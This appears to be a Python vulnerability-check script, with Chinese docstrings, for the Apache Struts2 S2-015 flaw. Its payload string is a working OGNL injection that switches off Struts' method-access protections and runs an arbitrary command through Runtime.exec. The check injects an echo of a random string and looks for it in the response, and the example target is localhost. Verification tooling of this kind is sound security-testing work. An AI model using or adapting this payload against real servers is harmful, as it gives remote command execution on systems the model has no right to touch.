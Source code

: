 ```python
        self.payload = '''/%24%7B%23context%5B'xwork.MethodAccessor.denyMethodExecution'%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess')%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec('{cmd}').getInputStream())%2C%23q%7D.action'''

    def get_capta(self):
        
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """

        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

       
        try:
            check_url = self.url + self.payload.format(cmd = urllib.parse.quote('echo' + ' ' + self.capta))
            check_req = requests.get(check_url, headers = self.headers)
            if self.capta + '.jsp' in check_req.text.replace(' ', '').replace('\n', ''):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_015 = S2_015_1_BaseVerify('http://localhost:8080/s2_015_war_exploded/Helloworld.action')
    print(S2_015.run())
```
